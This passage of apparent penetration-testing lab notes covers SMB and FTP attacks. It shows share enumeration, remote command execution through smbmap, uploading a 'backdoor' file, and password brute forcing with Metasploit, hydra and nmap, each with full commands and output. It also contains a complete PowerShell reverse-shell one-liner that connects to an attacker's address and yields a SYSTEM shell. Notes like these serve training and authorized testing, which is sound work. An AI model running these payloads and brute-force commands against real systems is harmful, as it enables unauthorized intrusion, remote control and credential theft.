| <DIR>  2013-08-22T15:39:31  ADFS\en
| 
| 
| Volume \\10.4.25.63\C
|   maxfiles limit reached (10)
| SIZE   TIME                 FILENAME
| <DIR>  2013-08-22T15:39:30  PerfLogs
| <DIR>  2013-08-22T13:36:16  Program Files
| <DIR>  2014-05-17T10:36:57  Program Files\Amazon
| <DIR>  2013-08-22T13:36:16  Program Files\Common Files
| <DIR>  2014-10-15T05:58:49  Program Files\DIFX
| <DIR>  2013-08-22T15:39:31  Program Files\Internet Explorer
| <DIR>  2014-07-10T18:40:15  Program Files\Update Services
| <DIR>  2020-08-12T04:13:47  Program Files\Windows Mail
| <DIR>  2013-08-22T15:39:31  Program Files\Windows NT
| <DIR>  2013-08-22T15:39:31  Program Files\WindowsPowerShell
| 
| 
| Volume \\10.4.25.63\C$
|   maxfiles limit reached (10)
| SIZE   TIME                 FILENAME
| <DIR>  2013-08-22T15:39:30  PerfLogs
| <DIR>  2013-08-22T13:36:16  Program Files
| <DIR>  2014-05-17T10:36:57  Program Files\Amazon
| <DIR>  2013-08-22T13:36:16  Program Files\Common Files
| <DIR>  2014-10-15T05:58:49  Program Files\DIFX
| <DIR>  2013-08-22T15:39:31  Program Files\Internet Explorer
| <DIR>  2014-07-10T18:40:15  Program Files\Update Services
| <DIR>  2020-08-12T04:13:47  Program Files\Windows Mail
| <DIR>  2013-08-22T15:39:31  Program Files\Windows NT
| <DIR>  2013-08-22T15:39:31  Program Files\WindowsPowerShell
| 
| 
| Volume \\10.4.25.63\Documents
| SIZE   TIME                 FILENAME
| <DIR>  2020-09-10T09:50:27  .
| <DIR>  2020-09-10T09:50:27  ..
| 
| 
| Volume \\10.4.25.63\Downloads
| SIZE   TIME                 FILENAME
| <DIR>  2020-09-10T09:50:27  .
| <DIR>  2020-09-10T09:50:27  ..
| 
| 
| Volume \\10.4.25.63\print$
|   maxfiles limit reached (10)
| SIZE    TIME                 FILENAME
| <DIR>   2013-08-22T15:39:31  .
| <DIR>   2013-08-22T15:39:31  ..
| <DIR>   2013-08-22T15:39:31  color
| 1058    2013-08-22T06:54:44  color\D50.camp
| 1079    2013-08-22T06:54:44  color\D65.camp
| 797     2013-08-22T06:54:44  color\Graphics.gmmp
| 838     2013-08-22T06:54:44  color\MediaSim.gmmp
| 786     2013-08-22T06:54:44  color\Photo.gmmp
| 822     2013-08-22T06:54:44  color\Proofing.gmmp
| 218103  2013-08-22T06:54:44  color\RSWOP.icm
```

 <br />

**enumerate smb shares with smbmap**

```bash
root@attackdefense:~# smbmap -H 10.4.30.102 -u administrator -p smbserver_771
[+] IP: 10.4.30.102:445	Name: 10.4.30.102                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	READ, WRITE	Remote Admin
	C                                                 	READ ONLY	
	C$                                                	READ, WRITE	Default share
	D$                                                	READ, WRITE	Default share
	Documents                                         	READ ONLY	
	Downloads                                         	READ ONLY	
	IPC$                                              	READ ONLY	Remote IPC
	print$                                            	READ, WRITE	Printer Drivers


try guest account:

root@attackdefense:~# smbmap -H 10.4.30.102 -u guest -p ""           
[+] Guest session   	IP: 10.4.30.102:445	Name: 10.4.30.102                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C                                                 	NO ACCESS	
	C$                                                	NO ACCESS	Default share
	D$                                                	NO ACCESS	Default share
	Documents                                         	NO ACCESS	
	Downloads                                         	NO ACCESS	
	IPC$                                              	READ ONLY	Remote IPC
	print$                                            	READ ONLY	Printer Drivers

```

`guest` has read only access to `IPC$` and `ptint$`, while `administrator` has a different access 

 <br />

**run commands on the smb server using smbmap**

```bash
root@attackdefense:~# smbmap -H 10.4.30.102 -u administrator -p smbserver_771 -x "ipconfig"
                                
Windows IP Configuration


Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : ec2.internal
   Link-local IPv6 Address . . . . . : fe80::6598:88e4:1bab:869c%12
   IPv4 Address. . . . . . . . . . . : 10.4.30.102
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.4.16.1

Tunnel adapter isatap.ec2.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : ec2.internal

root@attackdefense:~# smbmap -H 10.4.30.102 -u administrator -p smbserver_771 -x "dir"
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of C:\

01/10/2024  08:21 PM                 0 aPsATMmDWI
12/21/2020  03:57 PM                32 flag.txt
08/22/2013  03:52 PM    <DIR>          PerfLogs
08/12/2020  04:13 AM    <DIR>          Program Files
09/05/2020  09:05 AM    <DIR>          Program Files (x86)
12/19/2020  05:44 AM    <DIR>          Users
01/10/2024  08:15 PM    <DIR>          Windows
               2 File(s)             32 bytes
               5 Dir(s)     595,623,936 bytes free

```

 <br />

**list drivers with smbmap**

```bash
root@attackdefense:~# smbmap -H 10.4.30.102 -u administrator -p smbserver_771 -L                
[+] Host 10.4.30.102 Local Drives: C:\ D:\
[+] Host 10.4.30.102 Net Drive(s):
	No mapped network drives

```

 <br />

**reclusively list drive**

```bash
root@attackdefense:~# smbmap -H 10.4.30.102 -u administrator -p smbserver_771 -r 'C$'
[+] IP: 10.4.30.102:445	Name: 10.4.30.102                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	C$                                                	READ, WRITE	
	.\C$\*
	dr--r--r--                0 Sat Sep  5 13:26:00 2020	$Recycle.Bin
	fw--w--w--           398356 Wed Aug 12 10:47:41 2020	bootmgr
	fr--r--r--                1 Wed Aug 12 10:47:40 2020	BOOTNXT
	dr--r--r--                0 Wed Aug 12 10:47:41 2020	Documents and Settings
	fr--r--r--               32 Mon Dec 21 21:27:10 2020	flag.txt
	fr--r--r--       8589934592 Thu Jan 11 01:35:21 2024	pagefile.sys
	dr--r--r--                0 Wed Aug 12 10:49:32 2020	PerfLogs
	dw--w--w--                0 Wed Aug 12 10:49:32 2020	Program Files
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	Program Files (x86)
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	ProgramData
	dr--r--r--                0 Sat Sep  5 09:16:57 2020	System Volume Information
	dw--w--w--                0 Sat Dec 19 11:14:55 2020	Users
	dr--r--r--                0 Thu Jan 11 01:45:14 2024	Windows
```

 <br />

**upload files with smbmap**

```bash
root@attackdefense:~# smbmap -H 10.4.30.102 -u administrator -p smbserver_771 --upload '/root/backdoor' 'C$\backdoor'
[+] Starting upload: /root/backdoor (0 bytes)
[+] Upload complete

```

 <br />

**download files with smbmap**

```bash
root@attackdefense:~# smbmap -H 10.4.30.102 -u administrator -p smbserver_771 --download 'C$\flag.txt'
[+] Starting download: C$\flag.txt (32 bytes)
[+] File output to: /root/10.4.30.102-C_flag.txt
root@attackdefense:~# ls        
10.4.30.102-C_flag.txt	Desktop  backdoor  thinclient_drives

```

 <br />

**Run Powershell Script on Victim SMB host (change the IP in the code to your IP addres, i.e where the shell connects back to)**

```bash
root@attackdefense:~# smbmap -H 10.4.30.102 -u administrator -p smbserver_771 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"'
[+] Finding open SMB ports....
[+] User SMB session established...
[+] IP: 192.168.2.50:445        Name: unkown
[!] Error encountered, sharing violation, unable to retrieve output


Attackers Netcat Listener:
$ nc -l 4445
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
 nt authority\system
```

 <br />

**SMB on linux machines (Samba)**

```bash
root@attackdefense:~# nmap 192.92.234.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-10 20:56 UTC
Nmap scan report for target-1 (192.92.234.3)
Host is up (0.000012s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 02:42:C0:5C:EA:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
root@attackdefense:~# nmap 192.92.234.3 -sV -p139,445
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-10 20:57 UTC
Nmap scan report for target-1 (192.92.234.3)
Host is up (0.000042s latency).

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)
MAC Address: 02:42:C0:5C:EA:03 (Unknown)
Service Info: Host: SAMBA-RECON

```

by default nmap guessed this smb on microsoft but with `-sV` nmap detected that it is a linux samba 

<br />

**SMB UDP ports**

```bash
root@attackdefense:~# nmap 192.92.234.3 -sU --top-port 25 --open
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-10 21:03 UTC
Nmap scan report for target-1 (192.92.234.3)
Host is up (0.000069s latency).
Not shown: 23 closed ports
PORT    STATE         SERVICE
137/udp open          netbios-ns
138/udp open|filtered netbios-dgm
MAC Address: 02:42:C0:5C:EA:03 (Unknown)

root@attackdefense:~# nmap 192.92.234.3 -sU -sV -p137,138
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-10 21:06 UTC
Nmap scan report for target-1 (192.92.234.3)
Host is up (0.000069s latency).

PORT    STATE         SERVICE     VERSION
137/udp open          netbios-ns  Samba nmbd netbios-ns (workgroup: RECONLABS)
138/udp open|filtered netbios-dgm
MAC Address: 02:42:C0:5C:EA:03 (Unknown)
Service Info: Host: SAMBA-RECON


root@attackdefense:~# nmap 192.92.234.3 -sV -p445 --script=smb-os-discovery
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-10 21:12 UTC
Nmap scan report for target-1 (192.92.234.3)
Host is up (0.000055s latency).

PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: RECONLABS)
MAC Address: 02:42:C0:5C:EA:03 (Unknown)
Service Info: Host: SAMBA-RECON

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: victim-1
|   NetBIOS computer name: SAMBA-RECON\x00
|   Domain name: \x00
|   FQDN: victim-1
|_  System time: 2024-01-10T21:12:39+00:00

```

<br />

**smbclient**

```bash
root@attackdefense:~# smbclient -L 192.92.234.3 -N

        Sharename       Type      Comment
        ---------       ----      -------
        public          Disk      
        john            Disk      
        aisha           Disk      
        emma            Disk      
        everyone        Disk      
        IPC$            IPC       IPC Service (samba.recon.lab)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        RECONLABS            SAMBA-RECON
        
        
        
root@attackdefense:~# smbclient //192.136.191.3/public -N
Try "help" to get a list of possible commands.
smb: \> ls

to access share with specific user
root@attackdefense:~# smbclient //192.136.191.3/public -U user
Try "help" to get a list of possible commands.
smb: \> ls
```

<br />

**connect with rpcclient null session**

```bash
root@attackdefense:~# rpcclient -U "" -N 192.140.254.3
rpcclient $> srvinfo 
        SAMBA-RECON    Wk Sv PrQ Unx NT SNT samba.recon.lab
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03 
        
rpcclient $> enumdomusers
        user:[john] rid:[0x3e8]
        user:[elie] rid:[0x3ea]
        user:[aisha] rid:[0x3ec]
        user:[shawn] rid:[0x3e9]
        user:[emma] rid:[0x3eb]
        user:[admin] rid:[0x3ed]
        
rpcclient $> lookupnames admin
        admin S-1-5-21-4056189605-2085045094-1961111545-1005 (User: 1)
```

<br />

**enum4linux**

```bash
root@attackdefense:~# enum4linux -o  192.140.254.3
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Jan 10 21:37:39 2024

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.140.254.3
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===================================================== 
|    Enumerating Workgroup/Domain on 192.140.254.3    |
 ===================================================== 
[+] Got domain/workgroup name: RECONLABS

 ====================================== 
|    Session Check on 192.140.254.3    |
 ====================================== 
[+] Server 192.140.254.3 allows sessions using username '', password ''

 ============================================ 
|    Getting domain SID for 192.140.254.3    |
 ============================================ 
Domain Name: RECONLABS
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ======================================= 
|    OS information on 192.140.254.3    |
 ======================================= 
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 192.140.254.3 from smbclient: 
[+] Got OS info for 192.140.254.3 from srvinfo:
        SAMBA-RECON    Wk Sv PrQ Unx NT SNT samba.recon.lab
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03
enum4linux complete on Wed Jan 10 21:37:39 2024


----------------------------------------------------------------------------------------------------------------
----------------------------------------------------------------------------------------------------------------

root@attackdefense:~# enum4linux 192.140.254.3
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Jan 10 21:38:09 2024

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.140.254.3
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===================================================== 
|    Enumerating Workgroup/Domain on 192.140.254.3    |
 ===================================================== 
[+] Got domain/workgroup name: RECONLABS

 ============================================= 
|    Nbtstat Information for 192.140.254.3    |
 ============================================= 
Looking up status of 192.140.254.3
        SAMBA-RECON     <00> -         H <ACTIVE>  Workstation Service
        SAMBA-RECON     <03> -         H <ACTIVE>  Messenger Service
        SAMBA-RECON     <20> -         H <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> H <ACTIVE>  Master Browser
        RECONLABS       <00> - <GROUP> H <ACTIVE>  Domain/Workgroup Name
        RECONLABS       <1d> -         H <ACTIVE>  Master Browser
        RECONLABS       <1e> - <GROUP> H <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ====================================== 
|    Session Check on 192.140.254.3    |
 ====================================== 
[+] Server 192.140.254.3 allows sessions using username '', password ''

 ============================================ 
|    Getting domain SID for 192.140.254.3    |
 ============================================ 
Domain Name: RECONLABS
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ======================================= 
|    OS information on 192.140.254.3    |
 ======================================= 
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 192.140.254.3 from smbclient: 
[+] Got OS info for 192.140.254.3 from srvinfo:
        SAMBA-RECON    Wk Sv PrQ Unx NT SNT samba.recon.lab
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03

 ============================== 
|    Users on 192.140.254.3    |
 ============================== 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: john     Name:   Desc: 
index: 0x2 RID: 0x3ea acb: 0x00000010 Account: elie     Name:   Desc: 
index: 0x3 RID: 0x3ec acb: 0x00000010 Account: aisha    Name:   Desc: 
index: 0x4 RID: 0x3e9 acb: 0x00000010 Account: shawn    Name:   Desc: 
index: 0x5 RID: 0x3eb acb: 0x00000010 Account: emma     Name:   Desc: 
index: 0x6 RID: 0x3ed acb: 0x00000010 Account: admin    Name:   Desc: 

user:[john] rid:[0x3e8]
user:[elie] rid:[0x3ea]
user:[aisha] rid:[0x3ec]
user:[shawn] rid:[0x3e9]
user:[emma] rid:[0x3eb]
user:[admin] rid:[0x3ed]

 ========================================== 
|    Share Enumeration on 192.140.254.3    |
 ========================================== 

        Sharename       Type      Comment
        ---------       ----      -------
        public          Disk      
        john            Disk      
        aisha           Disk      
        emma            Disk      
        everyone        Disk      
        IPC$            IPC       IPC Service (samba.recon.lab)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        RECONLABS            SAMBA-RECON

[+] Attempting to map shares on 192.140.254.3
//192.140.254.3/public  Mapping: OK, Listing: OK
//192.140.254.3/john    Mapping: DENIED, Listing: N/A
//192.140.254.3/aisha   Mapping: DENIED, Listing: N/A
//192.140.254.3/emma    Mapping: DENIED, Listing: N/A
//192.140.254.3/everyone        Mapping: DENIED, Listing: N/A
//192.140.254.3/IPC$    [E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

 ===================================================== 
|    Password Policy Information for 192.140.254.3    |
 ===================================================== 


[+] Attaching to 192.140.254.3 using a NULL share

[+] Trying protocol 445/SMB...

[+] Found domain(s):

        [+] SAMBA-RECON
        [+] Builtin

[+] Password Info for Domain: SAMBA-RECON

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: 37 days 6 hours 21 minutes 
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: 37 days 6 hours 21 minutes 


[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 5


 =============================== 
|    Groups on 192.140.254.3    |
 =============================== 

[+] Getting builtin groups:

[+] Getting builtin group memberships:

[+] Getting local groups:
group:[Testing] rid:[0x3f0]

[+] Getting local group memberships:

[+] Getting domain groups:
group:[Maintainer] rid:[0x3ee]
group:[Reserved] rid:[0x3ef]

[+] Getting domain group memberships:

 ======================================================================== 
|    Users on 192.140.254.3 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================== 
[I] Found new SID: S-1-22-2
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-4056189605-2085045094-1961111545
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-21-4056189605-2085045094-1961111545 and logon username '', password ''
S-1-5-21-4056189605-2085045094-1961111545-501 SAMBA-RECON\nobody (Local User)
S-1-5-21-4056189605-2085045094-1961111545-513 SAMBA-RECON\None (Domain Group)
S-1-5-21-4056189605-2085045094-1961111545-1000 SAMBA-RECON\john (Local User)
S-1-5-21-4056189605-2085045094-1961111545-1001 SAMBA-RECON\shawn (Local User)
S-1-5-21-4056189605-2085045094-1961111545-1002 SAMBA-RECON\elie (Local User)
S-1-5-21-4056189605-2085045094-1961111545-1003 SAMBA-RECON\emma (Local User)
S-1-5-21-4056189605-2085045094-1961111545-1004 SAMBA-RECON\aisha (Local User)
S-1-5-21-4056189605-2085045094-1961111545-1005 SAMBA-RECON\admin (Local User)
S-1-5-21-4056189605-2085045094-1961111545-1006 SAMBA-RECON\Maintainer (Domain Group)
S-1-5-21-4056189605-2085045094-1961111545-1007 SAMBA-RECON\Reserved (Domain Group)
S-1-5-21-4056189605-2085045094-1961111545-1008 SAMBA-RECON\Testing (Local Group)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\john (Local User)
S-1-22-1-1001 Unix User\shawn (Local User)
S-1-22-1-1002 Unix User\elie (Local User)
S-1-22-1-1003 Unix User\emma (Local User)
S-1-22-1-1004 Unix User\aisha (Local User)
S-1-22-1-1005 Unix User\admin (Local User)
[+] Enumerating users using SID S-1-22-2 and logon username '', password ''
S-1-22-2-1000 Unix Group\admins (Domain Group)
S-1-22-2-1001 Unix Group\Maintainer (Domain Group)
S-1-22-2-1002 Unix Group\Reserved (Domain Group)
S-1-22-2-1003 Unix Group\Testing (Domain Group)

 ============================================== 
|    Getting printer info for 192.140.254.3    |
 ============================================== 
No printers returned.


```

<br />

**check if SMB2 protocol is supported by the samba server**

```bash
msf5 > use auxiliary/scanner/smb/smb2
msf5 auxiliary(scanner/smb/smb2) > options

Module options (auxiliary/scanner/smb/smb2):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    445              yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads

msf5 auxiliary(scanner/smb/smb2) > set RHOSTS 192.140.254.3
RHOSTS => 192.140.254.3
msf5 auxiliary(scanner/smb/smb2) > run

[+] 192.140.254.3:445     - 192.140.254.3 supports SMB 2 [dialect 255.2] and has been online for 3708165 hours
[*] 192.140.254.3:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


<br />

**SMB bruteforce with  metasploit**

```bash
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target address range or CIDR identifier
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 192.123.150.3
RHOSTS => 192.123.150.3
msf5 auxiliary(scanner/smb/smb_login) > set SMBUSER jane
SMBUSER => jane
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 192.123.150.3:445     - 192.123.150.3:445 - Starting SMB login bruteforce
[-] 192.123.150.3:445     - 192.123.150.3:445 - Failed: '.\jane:admin',
[!] 192.123.150.3:445     - No active DB -- Credential data will not be saved!
[-] 192.123.150.3:445     - 192.123.150.3:445 - Failed: '.\jane:123456',
[-] 192.123.150.3:445     - 192.123.150.3:445 - Failed: '.\jane:12345',
[-] 192.123.150.3:445     - 192.123.150.3:445 - Failed: '.\jane:123456789',
[-] 192.123.150.3:445     - 192.123.150.3:445 - Failed: '.\jane:password',
[-] 192.123.150.3:445     - 192.123.150.3:445 - Failed: '.\jane:iloveyou',
[-] 192.123.150.3:445     - 192.123.150.3:445 - Failed: '.\jane:princess',
[-] 192.123.150.3:445     - 192.123.150.3:445 - Failed: '.\jane:1234567',
[-] 192.123.150.3:445     - 192.123.150.3:445 - Failed: '.\jane:12345678',
[+] 192.123.150.3:445     - 192.123.150.3:445 - Success: '.\jane:abc123'
[*] 192.123.150.3:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<br />

**SMB bruteforce with hydra**

```bash
root@attackdefense:~# hydra -l admin -P /usr/share/wordlists/rockyou.txt smb://192.123.150.3 
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-10 22:42:33
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking smb://192.123.150.3:445/
[445][smb] host: 192.123.150.3   login: admin   password: password1
1 of 1 target successfully completed, 1 valid password found
```

<br />


---

<br />

### FTP

**get the version of ftp service**

```bash
root@attackdefense:~# nmap -sV -O 192.164.208.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-03 14:14 UTC
Nmap scan report for target-1 (192.164.208.3)
Host is up (0.000035s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5a
MAC Address: 02:42:C0:A4:D0:03 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 1 hop
Service Info: OS: Unix
```

<br />

**view nmap scripts related to ftp**

```bash
root@attackdefense:~# ls -l /usr/share/nmap/scripts/ | grep -i "ftp"
-rw-r--r-- 1 root root  4530 Jan  9  2019 ftp-anon.nse
-rw-r--r-- 1 root root  3253 Jan  9  2019 ftp-bounce.nse
-rw-r--r-- 1 root root  3108 Jan  9  2019 ftp-brute.nse
-rw-r--r-- 1 root root  3258 Jan  9  2019 ftp-libopie.nse
-rw-r--r-- 1 root root  3295 Jan  9  2019 ftp-proftpd-backdoor.nse
-rw-r--r-- 1 root root  3748 Jan  9  2019 ftp-syst.nse
-rw-r--r-- 1 root root  6007 Jan  9  2019 ftp-vsftpd-backdoor.nse
-rw-r--r-- 1 root root  5943 Jan  9  2019 ftp-vuln-cve2010-4221.nse
-rw-r--r-- 1 root root  5678 Jan  9  2019 tftp-enum.nse
```

<br />

**bruteforce FTP users and passwords with nmap scripts**

```bash
root@attackdefense:~# nmap --script ftp-brute --script-args userdb=/usr/share/metasploit-framework/data/wordlists/common_users.txt passdb=/usr/share/metasploit-framework/data/wordlists/common_users.txt  -p 21 192.164.208.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-03 14:48 UTC
Unable to split netmask from target expression: "passdb=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt"
Nmap scan report for target-1 (192.164.208.3)
Host is up (0.000035s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     rooty:qwerty - Valid credentials
|     anon:purple - Valid credentials
|     demo:butterfly - Valid credentials
|     auditor:chocolate - Valid credentials
|     sysadmin:654321 - Valid credentials
|     diag:tigger - Valid credentials
|     administrator:tweety - Valid credentials
|_  Statistics: Performed 221 guesses in 31 seconds, average tps: 7.0
MAC Address: 02:42:C0:A4:D0:03 (Unknown)
```

<br />

**login with `anonymous:anonymous`** 

```bash
root@attackdefense:~# nmap -sV --script=ftp-anon 192.211.183.3 -p21
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-03 14:57 UTC
Nmap scan report for target-1 (192.211.183.3)
Host is up (0.000052s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Dec 18  2018 flag
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 18  2018 pub
MAC Address: 02:42:C0:D3:B7:03 (Unknown)
Service Info: OS: Unix


root@attackdefense:~# ftp 192.211.183.3
Connected to 192.164.208.3.
220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.164.208.3]
Name (192.164.208.3:root): anonymous
331 Password required for anonymous
Password:
```

<br />

**bruteforce FTP users and passwords with hydra**

```bash
root@attackdefense:~# hydra -L  /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.164.208.3
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-03 14:34:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://192.164.208.3:21/
